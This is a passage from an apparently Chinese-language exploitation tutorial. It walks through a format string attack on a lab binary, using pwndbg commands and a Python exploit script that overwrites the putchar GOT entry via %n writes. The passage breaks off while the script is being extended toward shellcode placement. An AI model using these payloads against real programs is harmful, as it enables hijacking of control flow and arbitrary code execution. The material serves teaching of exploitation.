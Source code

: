 1.  然后以调试模式运行应用程序，并检查内存中的值：

```py
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](img/00121.jpeg)

该值从其先前的值`0x4c443c`更改为`0x564e46`。因此，所有字节都增加了 16。现在它的长度为 16 个字节。

1.  现在我们可以尝试将特定地址写入该地址位置。在这里，我们可以尝试写入`ddccbbaa`。为此，更新我们的`exploit.py`如下：

```py
#!/usr/bin/python   
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n' 
print w1 + w2 + w3 + w4 + form 
```

通过这样做，我们在每个`%n`之前添加了足够的前导零，以匹配打印字符的总数，并匹配我们计划写入的期望值。此外，每次写入时字节的总数都会增加；我们必须为每个值添加 256，以使最后的字节干净。

1.  现在使用我们精心制作的有效载荷执行应用程序，并检查内存位置：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```

![](img/00122.jpeg)

现在`putchar@got.plt`指针的值为`0xddccbbaa`，这是我们计划写入其中的值。

1.  现在我们可以创建一个模式并将其插入到利用中。这将有助于确定我们可以插入我们的 shell 代码的位置。因此，使用模式更新我们的利用。这将更新脚本如下：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
```